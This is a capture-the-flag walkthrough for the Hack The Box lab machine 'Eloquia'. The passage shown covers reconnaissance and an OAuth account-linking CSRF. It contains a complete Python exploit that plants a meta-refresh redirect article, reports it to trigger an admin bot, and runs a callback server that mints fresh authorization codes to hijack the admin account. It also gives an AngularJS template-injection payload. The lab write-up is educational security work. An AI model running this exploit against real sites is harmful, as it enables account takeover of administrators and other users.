




Welcome back to another Hack The Box writeup. In this walkthrough, we'll be taking a deep dive into **Eloquia**, an **Insane-difficulty Windows machine** that challenges players to think beyond individual vulnerabilities and focus on how seemingly minor weaknesses can be chained together into a complete system compromise.

Eloquia stands out as a realistic assessment of modern web application security, requiring a combination of thorough enumeration, web exploitation, database abuse, Windows post-exploitation, and privilege escalation techniques. Rather than relying on a single critical vulnerability, the machine rewards a methodical approach where each discovery unlocks the next stage of the attack path. Public discussions surrounding the box highlight the importance of exploiting trust relationships between application components, manipulating authentication mechanisms, leveraging SQLite functionality for code execution, and ultimately escalating privileges through weaknesses in the underlying Windows environment.

This revised edition of the writeup keeps **every original command, code snippet, terminal output, and screenshot** exactly as captured during the assessment, but wraps each of them in much deeper explanations: the "why," the underlying protocol or OS mechanism being abused, and how each step feeds into the next. Mermaid diagrams are included at the key pivot points so you can visualize the relationships between the vulnerabilities rather than just reading about them linearly.

### Why Eloquia Is Rated "Insane"

No single bug on this box is enough on its own. Instead, five separate weaknesses are chained together:

1. **Broken OAuth "Login With Qooqle" flow** (missing `state` parameter / no PKCE) → used for a CSRF-style **admin account takeover**.
2. **An exposed debug tool (SQL Explorer)** combined with **SQLite's `load_extension()`** function → **arbitrary native code execution**.
3. **Unrestricted file upload** in the article/banner feature → the delivery mechanism for the malicious DLL used above.
4. **DPAPI-protected credentials stored by Microsoft Edge** → harvested and decrypted from the compromised `web` service account, yielding a second set of domain-style credentials (`Olivia.KAT`) and **WinRM access**.
5. **An insecure, frequently-restarted Windows service** (`Failure2Ban`) with a replaceable binary path → a **TOCTOU (time-of-check-to-time-of-use) binary-planting race condition** that yields **SYSTEM**.

Here is the full attack chain at a glance before we dive into the weeds:



> **Background research note:** Independent write-ups of this box (e.g. "OAuth CSRF → SQLite RCE → DPAPI Secrets → Race Condition → SYSTEM") confirm the same five-stage chain described above, which matches the methodology captured in this engagement. The core idea the box is testing is that *trust boundaries between cooperating applications* (Eloquia and its sibling OAuth provider, Qooqle) and *trust boundaries between privilege levels on the same host* (the `web` service account and the `Administrator`/SYSTEM context) are both only as strong as their weakest implementation detail.

---

# Phase 1: Reconnaissance & Enumeration

Every engagement starts with mapping the attack surface. On a box like this, the goal of recon isn't just "find open ports" — it's to build a mental model of *what applications exist, how they talk to each other, and what technologies they're built on*, because that model is what lets you recognize a vulnerability class later (e.g. recognizing an OAuth flow and immediately checking for a `state` parameter).

## Network Scanning with Nmap

The first step, as always, is a full TCP port scan with service/version detection and default NSE scripts (`-A` enables OS detection, version detection, script scanning, and traceroute all at once; `-T5` sets the timing template to "insane" for speed, trading some stealth for speed since this is a CTF-style lab and not a stealth engagement).

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ nmap -A -T5 10.129.244.81                                                                            
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-03 01:37 EDT
Nmap scan report for 10.129.244.81
Host is up (0.15s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://eloquia.htb/
|_http-server-header: Microsoft-IIS/10.0
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   183.16 ms 10.10.16.1
2   183.13 ms 10.129.244.81

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.08 seconds
```

### Reading the Scan Results

Only **two** TCP ports are reachable, which is unusually minimal for a Windows box and is itself a signal:

| Port | Service | What it tells us |
|---|---|---|
| **80/tcp** | Microsoft IIS 10.0 (HTTP) | A web application is hosted here. IIS 10.0 ships with Windows Server 2019 / Windows 10, which lines up with Nmap's OS guess. The response does **not** follow the redirect automatically — Nmap is telling us the server issued an HTTP redirect to a *virtual host* (`http://eloquia.htb/`) rather than serving content on the bare IP. This is the first clue that the box uses name-based virtual hosting and that `/etc/hosts` needs to be populated before anything will render correctly. |
| **5985/tcp** | Microsoft HTTPAPI (WinRM) | Port 5985 is the default **WS-Management / WinRM** listener. This is *not* useful yet (we have no credentials), but it's an important detail to remember — it tells us that, once we obtain valid Windows credentials later in the engagement, we'll very likely be able to get an interactive shell via WinRM rather than needing a separate C2/reverse-shell mechanism. Seeing WinRM open this early is a strong hint about what the *intended* lateral-movement path will look like. |

No SMB (445), RDP (3389), or MSSQL (1433) are visible — the firewall is clearly locked down to just these two services, which narrows our entire attack surface down to "the web application on port 80" for the initial foothold.

## Setting Up Virtual Hosts

Since IIS redirected us to `eloquia.htb`, we need to add that mapping locally so our browser and tools resolve the hostname to the target IP instead of failing DNS resolution (there is no public DNS record for `.htb` domains — HTB expects you to manage this yourself):

```
# /etc/hosts

10.129.244.81   eloquia.htb
```

## Exploring the Eloquia Web Application

With the hostname resolving correctly, we can now browse the application as it was meant to be accessed.


The application presents itself as a modern social publishing platform called Eloquia. The landing page features a clean, professional design with a large hero section promoting the slogan "Best Platform To Share Your Experience". Navigation is straightforward, offering links to Articles, Login, Register, About Us and Contact Us, plus a prominent "Create Article" button in the top right.

This first impression already suggests a user-generated content platform with registration and authentication features. The overall look and feel is typical of Django-based applications, which is later confirmed during technology fingerprinting.

**Why this matters for the attack path:** platforms that let users create and publish content (articles, comments, profile fields) are inherently interesting from an offensive perspective because they give an unauthenticated or low-privileged attacker a way to get *their own, attacker-controlled data* rendered in front of *other, higher-privileged users* — including, eventually, an administrator or an automated "admin bot" that reviews reported content. Keep this article/content feature in mind; it resurfaces as the delivery mechanism in both Phase 2 (the CSRF redirect payload) and Phase 3 (the malicious DLL upload).

Next thing I did is to register to the platform, while exploring, I noticed something here:


On the login page two third-party authentication buttons are present: a blue "Log In with Facebook" button and a red "Log In with Qooqle" button. Facebook appears disabled or non-functional, while Qooqle is fully operational.

## Discovering the OAuth Login Flow

The presence of OAuth-based social login immediately stands out as a potential attack surface. In many CTF and real-world scenarios, poorly implemented OAuth flows (especially missing `state` parameters or weak redirect URI validation) can lead to account takeover.

### OAuth 2.0 Authorization Code Grant — Concept Deep Dive

Before going further, it's worth being precise about what "Login with Qooqle" actually does under the hood, because the entire Phase 2 exploit hinges on understanding this flow correctly.

The **OAuth 2.0 Authorization Code grant** is the standard flow used for "Login with X" buttons. At a high level:

1. The **client application** (Eloquia) redirects the user's browser to the **authorization server** (Qooqle), including a `client_id` identifying Eloquia, a `redirect_uri` telling Qooqle where to send the user back, a `response_type=code` (requesting an authorization *code*, not a token directly), and — critically — a `state` parameter.
2. The user authenticates at the authorization server (Qooqle) and approves the request.
3. Qooqle redirects the browser *back* to the `redirect_uri` with a short-lived, single-use **authorization code** appended as a query parameter, along with the same `state` value that was sent in step 1.
4. Eloquia's backend verifies that the returned `state` matches the one *it* originally generated and stored (usually in the user's session), then exchanges the authorization code for an access token/identity directly with Qooqle over a server-to-server channel.

The `state` parameter exists **specifically to prevent CSRF attacks against the OAuth callback**. Without it, nothing cryptographically ties a given authorization code exchange to the browser session that initiated it — meaning an attacker can start the OAuth dance *for their own account*, capture the resulting authorization code, and then trick a *different, already-authenticated* victim's browser into completing the callback with the attacker's code. Depending on how the client application's callback logic is written, this can result in the victim's account being **linked to the attacker's third-party identity** — which is exactly the bug we're about to find.

PKCE (Proof Key for Code Exchange, RFC 7636) is a complementary defense originally designed for public/native clients, but modern guidance recommends it everywhere because it binds a code to the specific client session that requested it via a cryptographic challenge/verifier pair.

Clicking the Qooqle button redirects the browser to `qooqle.htb/oauth2/authorize/` with a standard set of parameters: `client_id`, `response_type=code`, and a `redirect_uri` pointing back to Eloquia's callback endpoint. This confirms that Eloquia uses the classic OAuth 2.0 Authorization Code grant type.


### The Missing `state` Parameter

The absence of a `state` parameter (and lack of PKCE) is a critical observation that will later enable a Cross-Site Request Forgery style attack against the admin account.

Discovered `qooqle.htb`

```
# /etc/hosts

10.129.244.81   eloquia.htb    qooqle.htb
```


## Registering an Account & Mapping Application Features

After creating a regular user account (kuroshiro) we land on the profile page. The interface greets the user with "Howdy, kuroshiro" and offers standard profile management options: upload a profile photo, edit personal details, manage connected accounts, and delete the account.

At this stage the user has only low privileges. The connected accounts section and the ability to create articles become relevant later when we escalate to an administrative session.


### The Article Upload Feature

The article creation page allows users to upload a banner image (recommended size 750×500), set a title, and write content using a rich-text editor. The banner upload accepts common image formats and has a maximum size of 1 MB.

This form is important because once administrative access is obtained, the same upload mechanism can be abused to place arbitrary files (including malicious DLLs) into a web-accessible directory on the server.


**Why note this now, two phases early?** Good enumeration means cataloguing *every* feature that moves attacker-controlled bytes onto the server's filesystem, even before you know whether you'll have the privilege level required to make it dangerous. An "image upload" is only a toy feature until you discover (a) it has weak or no file-type/content validation, and (b) the resulting file lands in a path the server will later execute code from. We'll come back to this exact form in Phase 3.

## Technology Fingerprinting

Wappalyzer reveals the full technology stack: AngularJS 1.8.2, Django, IIS 10.0, Python, jQuery 3.6.0, and several other front-end libraries. The combination of Django on the backend and AngularJS on the frontend is noteworthy.


AngularJS 1.8.2 in particular is interesting because older AngularJS versions are known to be vulnerable to client-side template injection / XSS when user-controlled input is rendered without proper sanitization. This becomes useful during the OAuth takeover phase.

> **Concept note — AngularJS Client-Side Template Injection (CSTI):** Legacy AngularJS (1.x) compiles double-curly-brace expressions (`{{ }}`) found anywhere in the DOM it manages, including attributes and content that was injected after the page loaded. If an application reflects user input into an Angular-managed region of the page without sanitizing it, an attacker can submit a payload like `{{constructor.constructor('alert(1)')()}}` and have Angular itself evaluate it as JavaScript — turning a "simple" reflected-input bug into full script execution in the victim's browser. On Eloquia, the article content field is rendered through the same Angular/jQuery-driven front end, which is why the exploit chain in Phase 2 uses an article as the vehicle to redirect an authenticated admin/bot session rather than relying on a classic `<script>` tag (which a sane Content-Security-Policy or output encoding might otherwise block).

## Discovering the Qooqle OAuth Provider

Visiting qooqle.htb shows a dark-themed, Google-inspired search page. The site is clearly a custom-built OAuth provider rather than a real Google instance. It provides the necessary endpoints for authorization and token exchange used by Eloquia.

Having a fully controllable OAuth provider on the same network greatly simplifies the account takeover attack, as we can generate valid authorization codes for any account we control.


A closer inspection of the authorization request confirms the exact client ID used by Eloquia and the callback URL <http://eloquia.htb/accounts/oauth2/qooqle/callback/>. These values are required when crafting the malicious payload that will force the admin to link our attacker-controlled Qooqle account.


After completing the OAuth flow, the browser receives a successful response from Eloquia's callback endpoint containing a short-lived authorization code. This code is the proof that the linking process worked and is the same mechanism later abused in the CSRF-style account takeover.

Here are all the endpoints identified during the enumeration phase:

| Endpoint                           | Description                         |
|------------------------------------|-------------------------------------|
| `/accounts/login/`                 | Login page                          |
| `/accounts/register/`              | User registration                   |
| `/accounts/profile/`               | User profile                        |
| `/accounts/connect/`               | Linked OAuth accounts               |
| `/accounts/admin/`                 | Django admin (Grappelli)            |
| `/accounts/oauth2/qooqle/authorize/` | Starts OAuth flow                 |
| `/accounts/oauth2/qooqle/callback/`  | OAuth callback                    |
| `/article/create/`                 | Create article                      |
| `/article/visit/{id}/`             | View article                        |
| `/article/report/{id}/`             | Report article → triggers admin bot |
| `/dev/sql-explorer/`               | SQL Explorer (admin only)           |

### Phase 1 Summary — What We Know So Far

| Finding | Significance |
|---|---|
| `eloquia.htb` — Django + AngularJS 1.8.2 social publishing app | Primary attack surface; user-generated content (articles) accepted |
| `qooqle.htb` — attacker-controllable, Google-styled OAuth 2.0 provider | We can register our own identity provider account and generate valid auth codes for it at will |
| OAuth `authorize` request has **no `state` parameter** and **no PKCE** | The callback endpoint cannot distinguish "a code the victim's browser requested" from "a code the attacker injected" → CSRF |
| Known OAuth client_id + redirect_uri for Eloquia | Required inputs to forge a valid authorization request on the victim's behalf |
| Article creation accepts rich HTML content and file uploads | Reused later both as an XSS/redirect delivery vector (Phase 2) and a malicious-file delivery vector (Phase 3) |
| Port 5985 (WinRM) open | Confirms the eventual lateral-movement path once credentials are obtained |

---

# Phase 2: OAuth CSRF — Admin Account Takeover

## Understanding the Attack: OAuth Login-CSRF / Account-Linking CSRF

This class of vulnerability is sometimes called **"Login CSRF"** or, more precisely here, **"OAuth account-linking CSRF"**. The mechanics:

1. Eloquia lets a user link a Qooqle identity to their Eloquia account from the "Connected Accounts" section of the profile page.
2. When Eloquia's `/accounts/oauth2/qooqle/callback/` endpoint receives a `?code=...` query parameter, it exchanges that code with Qooqle for identity information, and then **links whichever Qooqle identity that code belongs to, to whichever Eloquia account the browser making the request happens to be logged into** — without checking that the request was actually initiated by that logged-in user (i.e., without validating a `state` value tied to that user's session).
3. Because there's no `state` check, an attacker can:
   - Log in to **Qooqle as themselves** (an identity they fully control, e.g. `kuroshiro@qmail.htb`).
   - Generate a **fresh, valid OAuth authorization code** for that identity.
   - Smuggle that code to the **victim's browser** (while the victim is authenticated to Eloquia) by getting the victim to issue a `GET` request to Eloquia's callback URL with the attacker's code attached.
   - Eloquia's server-side logic sees "an authenticated Eloquia session" + "a valid Qooqle code" and links the two — **even though the Qooqle identity being linked belongs to the attacker, not the victim**.
4. Once linked, the attacker can thereafter use **"Login with Qooqle"** on their own browser to authenticate directly into the **victim's Eloquia account**, because Eloquia now treats that Qooqle identity as an authorized login method for the victim's account.

If the victim here is an **administrator** (or an automated "admin bot" that reviews reported/flagged content, which is the realistic trigger mechanism on Eloquia), this single CSRF turns into a full **administrative account takeover**.



## Building the Exploit Script

To weaponize this, we need a single script that automates the whole chain: log into Eloquia as our low-privileged user, plant a malicious article that will redirect any viewer to our server, report it so an administrator (or review bot) opens it, and — the moment that happens — generate a fresh Qooqle authorization code server-side and bounce the admin's browser straight into Eloquia's OAuth callback with that code attached.

```python
#!/usr/bin/env python3
"""
Eloquia OAuth CSRF Account Takeover
Usage: python3 oauth_takeover.py --attacker-ip YOUR_VPN_IP --port 8080
"""

import argparse
import re
import time
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs, urlparse
import requests
from bs4 import BeautifulSoup

CONFIG = {
    "eloquia_url": "http://eloquia.htb",
    "qooqle_url": "http://qooqle.htb",
    "oauth_client_id": "riQBUyAa4UZT3Y1z1HUf3LY7Idyu8zgWaBj4zHIi",
    "oauth_redirect_uri": "http://eloquia.htb/accounts/oauth2/qooqle/callback/",
    "timeout": 15,
}

CREDS = {
    "username": "kuroshiro",
    "password": "lolomopanot023",
}

BANNER_IMAGE = "/home/kuroshiro/Downloads/9IGuL.png"

def get_csrf_token(html: str) -> str:
    soup = BeautifulSoup(html, "html.parser")
    csrf = soup.find("input", {"name": "csrfmiddlewaretoken"})
    if csrf and csrf.get("value"):
        return csrf["value"]
    match = re.search(r'name="csrfmiddlewaretoken"\s+value="([^"]+)"', html)
    if match:
        return match.group(1)
    raise ValueError("CSRF token not found")
```

**Configuration & helper (`CONFIG`, `CREDS`, `get_csrf_token`):** The `CONFIG` dictionary hard-codes the three values recovered during Phase 1 recon — the base URLs for both applications, and the OAuth `client_id` Eloquia registered with Qooqle. `oauth_redirect_uri` must match **exactly** what Qooqle has on file for that client, or the authorization server will reject the request (`redirect_uri` validation is one of the few checks that *is* usually implemented correctly even in broken OAuth setups — the vulnerability here is specifically the missing `state` check on the Eloquia side, not an open redirect on Qooqle). `get_csrf_token()` is a small utility: because Eloquia is a Django application, every POST request to a HTML form must include Django's `csrfmiddlewaretoken` (Django's built-in CSRF-protection mechanism for *its own* forms — note this protects Django's forms from third-party CSRF, which is a completely different, and correctly-implemented, control from the *missing* OAuth `state` parameter we're exploiting). The function first tries parsing the HTML properly with BeautifulSoup, then falls back to a regex, in case the token appears somewhere `BeautifulSoup`'s form-parsing doesn't catch (e.g. injected via JavaScript).

```python
def create_session():
    s = requests.Session()
    s.headers.update({"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"})
    return s

def eloquia_login(session):
    url = f"{CONFIG['eloquia_url']}/accounts/login/"
    r = session.get(url, timeout=CONFIG["timeout"])
    csrf = get_csrf_token(r.text)
    data = {
        "csrfmiddlewaretoken": csrf,
        "username": CREDS["username"],
        "password": CREDS["password"],
    }
    r = session.post(url, data=data, headers={"Referer": url}, allow_redirects=False, timeout=CONFIG["timeout"])
    return r.status_code in (200, 302)
```

**`create_session()` / `eloquia_login()`:** `create_session()` just wraps `requests.Session()` with a realistic browser `User-Agent` string — some Django deployments or WAF rules quietly reject requests from obvious scripting-library user agents, so mimicking Firefox avoids tripping that. `eloquia_login()` performs a textbook Django form login: `GET` the login page to retrieve a CSRF token and set the session cookie, then `POST` the username/password back *with* that token and the `Referer` header set (Django's CSRF middleware, since v4.0, also checks the `Referer` header on HTTPS; keeping it here is defensive). `allow_redirects=False` is important — we want to inspect the raw `302` redirect Django issues on a successful login rather than silently following it, both to confirm success and to avoid unnecessary extra requests.

```python
def create_malicious_article(session, callback_url):
    url = f"{CONFIG['eloquia_url']}/article/create/"
    r = session.get(url, timeout=CONFIG["timeout"])
    csrf = get_csrf_token(r.text)

    content = f'<p><meta http-equiv="refresh" content="0;url={callback_url}"></p>'
    # Alternative that also works with AngularJS:
    # content = f'<svg><image href="{callback_url}"/></svg>'

    data = {
        "csrfmiddlewaretoken": csrf,
        "title": f"Article-{int(time.time())}",
        "content": content,
    }

    files = None
    try:
        with open(BANNER_IMAGE, "rb") as f:
            files = {"banner": ("image.jpg", f.read(), "image/jpeg")}
    except FileNotFoundError:
        print("[!] No banner image found – continuing without it")

    r = session.post(url, data=data, files=files, allow_redirects=False, timeout=CONFIG["timeout"])
    location = r.headers.get("Location", "")
    match = re.search(r"/article/(?:visit/)?(\d+)/", location) or re.search(r"/article/(?:visit/)?(\d+)/", r.text)
    if not match:
        raise RuntimeError("Could not get article ID")
    return match.group(1)
```

**`create_malicious_article()` — the delivery mechanism:** This is the heart of the client-side half of the exploit. It authors a new article whose `content` field is an **HTML `<meta http-equiv="refresh">` tag** — a self-triggering, zero-click redirect that doesn't require JavaScript to execute at all, which sidesteps any output-encoding that might only be sanitizing `<script>` tags or Angular expressions. The moment a browser *renders* this article (not clicks anything — just loads the page), it immediately issues a navigation to `callback_url`, which, as we'll see in `main()`, points at the attacker's own locally-hosted HTTP server. The commented-out `<svg><image href="...">` alternative is left in deliberately: it's a well-known technique for triggering an outbound request purely through image-loading semantics, useful as a fallback if `<meta refresh>` were ever stripped by a sanitizer that specifically targets meta tags. The function also uploads a dummy banner image (reusing the normal article-creation form fields) simply so the POST looks like an ordinary, legitimate article submission and doesn't fail any "banner required" validation.

```python
def report_article(session, article_id):
    url = f"{CONFIG['eloquia_url']}/article/report/{article_id}/"
    r = session.get(url, allow_redirects=False, timeout=CONFIG["timeout"])
    return r.status_code in (200, 302)
```

**`report_article()` — triggering the victim to view it:** This is the step that gets the *administrator* (or an automated moderation bot acting on the admin's authenticated session) to actually open the malicious article. Many content platforms include a "Report" feature so users can flag inappropriate content for admin review; abusing that review workflow as a way to guarantee privileged eyeballs land on attacker-controlled content is a very common pattern in these kinds of challenges (and in the real world — it mirrors "blind XSS" style bugs reported through support tickets, abuse reports, or admin dashboards).

```python
def qooqle_login(session):
    url = f"{CONFIG['qooqle_url']}/login/"
    r = session.get(url, timeout=CONFIG["timeout"])
    csrf = get_csrf_token(r.text)
    data = {
        "csrfmiddlewaretoken": csrf,
        "username": CREDS["username"],
        "password": CREDS["password"],
    }
    r = session.post(url, data=data, headers={"Referer": url}, allow_redirects=False, timeout=CONFIG["timeout"])
    return r.status_code in (200, 302)

def get_oauth_code_url(session):
    auth_url = (
        f"{CONFIG['qooqle_url']}/oauth2/authorize/"
        f"?client_id={CONFIG['oauth_client_id']}"
        f"&response_type=code"
        f"&redirect_uri={CONFIG['oauth_redirect_uri']}"
    )
    r = session.get(auth_url, allow_redirects=False, timeout=CONFIG["timeout"])
    csrf = get_csrf_token(r.text)

    post_data = {
        "csrfmiddlewaretoken": csrf,
        "redirect_uri": CONFIG["oauth_redirect_uri"],
        "scope": "read write",
        "client_id": CONFIG["oauth_client_id"],
        "state": "",
        "response_type": "code",
        "allow": "Authorize",
    }
    headers = {"Referer": auth_url, "Origin": CONFIG["qooqle_url"]}
    r = session.post(auth_url, data=post_data, headers=headers, allow_redirects=False, timeout=CONFIG["timeout"])

    location = r.headers.get("Location")
    if not location or "code=" not in location:
        raise RuntimeError(f"No code received: {location}")
    return location
```

**`qooqle_login()` / `get_oauth_code_url()` — minting a fresh authorization code:** `qooqle_login()` authenticates to the *Qooqle* OAuth provider as the attacker's own identity (`kuroshiro@qmail.htb`). `get_oauth_code_url()` then drives the full "Authorize" consent screen server-side: it loads `/oauth2/authorize/` with the known `client_id` and `redirect_uri`, grabs the CSRF token from that consent page, and submits the equivalent of clicking "Allow" (`"allow": "Authorize"`). Notice the line `"state": ""` — the script simply sends an **empty `state` value**, because Qooqle doesn't enforce one either and, more importantly, Eloquia's callback never checks it against anything. Qooqle responds with a `302` whose `Location` header is `eloquia.htb/accounts/oauth2/qooqle/callback/?code=<fresh_code>` — a **valid, freshly-minted authorization code tied to the attacker's own Qooqle identity**. Crucially, this code exchange happens entirely in a **server-to-server context between the attacker's script and Qooqle** — the victim's browser is never involved in generating it. The victim's browser is only ever used to *deliver* that already-generated code to Eloquia's callback.


```python
class CallbackHandler(BaseHTTPRequestHandler):
    def log_message(self, format, *args):
        print(f"[*] HTTP: {args[0]}")

    def do_GET(self):
        if self.path.startswith("/test") or self.path == "/link":
            print("[+] Admin bot hit our server!")
            try:
                session = create_session()
                print("[*] Logging into Qooqle...")
                if not qooqle_login(session):
                    raise RuntimeError("Qooqle login failed")

                print("[*] Generating fresh OAuth code...")
                redirect_url = get_oauth_code_url(session)
                print(f"[+] Redirecting admin to: {redirect_url}")

                self.send_response(302)
                self.send_header("Location", redirect_url)
                self.end_headers()
                print("[+] SUCCESS – Admin account should now be linked to your Qooqle account!")
            except Exception as e:
                print(f"[-] Error: {e}")
                self.send_response(500)
                self.end_headers()
        else:
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b"OK")
```

**`CallbackHandler` — the just-in-time redirect server:** This is the cleverest part of the exploit, and the reason the code isn't simply generated once up front. OAuth authorization codes are **single-use and extremely short-lived** (typically expiring in under a minute). If we generated the code *before* the admin ever visits our page and just hard-coded the resulting URL into the article, the code would almost certainly have expired by the time an admin actually gets around to reviewing the reported article. Instead, this tiny HTTP server **waits** for the admin's browser to actually hit it (which is exactly what the `<meta refresh>` payload causes to happen) and only *then*, in `do_GET()`, does it log into Qooqle and mint the authorization code in real time — guaranteeing it's still fresh by the time it's handed back. The handler immediately responds with an HTTP `302` redirect pointing the admin's browser straight at Eloquia's callback URL with that code attached, so the admin's own authenticated session completes the final, damaging request without ever needing a second visit.

```python
def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("--attacker-ip", required=True)
    parser.add_argument("--port", type=int, default=8080)
    args = parser.parse_args()

    callback_url = f"http://{args.attacker_ip}:{args.port}/test.html"

    print("[*] Starting callback server...")
    server = HTTPServer(("0.0.0.0", args.port), CallbackHandler)
    import threading
    t = threading.Thread(target=server.serve_forever, daemon=True)
    t.start()

    session = create_session()
    print("[*] Logging into Eloquia...")
    if not eloquia_login(session):
        print("[-] Eloquia login failed")
        return

    print("[*] Creating malicious article...")
    article_id = create_malicious_article(session, callback_url)
    print(f"[+] Article created: {article_id}")

    print("[*] Reporting article (triggers admin bot)...")
    report_article(session, article_id)
    print("[+] Reported. Waiting for admin bot to visit...")

    # Keep script alive
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        print("\n[*] Done")

if __name__ == "__main__":
    main()
```

**`main()` — tying it all together:** The orchestration logic is simple and linear: (1) stand up the attacker-controlled HTTP server on a background thread so it's ready to catch the admin's visit at any moment; (2) log into Eloquia as the low-privileged attacker account; (3) create the malicious article, embedding the attacker's own `callback_url` as the redirect target; (4) report the article to trigger admin review; (5) idle, waiting for the `CallbackHandler` thread to do its work asynchronously whenever the admin (or review bot) eventually loads the page.

## Weaponizing & Triggering the Admin Bot

Running the complete script against the target, using our own VPN IP as the callback host:

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ python3 takeover.py --attacker-ip 10.10.17.133 --port 1234
[*] Starting callback server...
[*] Logging into Eloquia...
[*] Creating malicious article...
[+] Article created: 13
[*] Reporting article (triggers admin bot)...
[+] Reported. Waiting for admin bot to visit...
[+] Admin bot hit our server!
[*] Logging into Qooqle...
[*] Generating fresh OAuth code...
[+] Redirecting admin to: http://eloquia.htb/accounts/oauth2/qooqle/callback/?code=itP0Q1A1lpS9FVAOv12U1Qfudzl83X
[*] HTTP: GET /test.html HTTP/1.1
[+] SUCCESS – Admin account should now be linked to your Qooqle account!
```

Walking through this output against the code above: the article was created (ID `13`), reported, and shortly after, an automated process — the "admin bot" that monitors reported content on Eloquia — fetched `test.html` from our listener. The instant that hit landed, the script logged into Qooqle fresh, minted a brand-new authorization code (`itP0Q1A1lpS9FVAOv12U1Qfudzl83X`), and 302-redirected the admin's session straight into Eloquia's OAuth callback carrying that code. The `[+] SUCCESS` line confirms the redirect was issued — but the *actual* proof of compromise is on Eloquia's side, since the callback request itself happens inside the admin's browser/bot, outside of our script's direct visibility.

## Verifying the Takeover

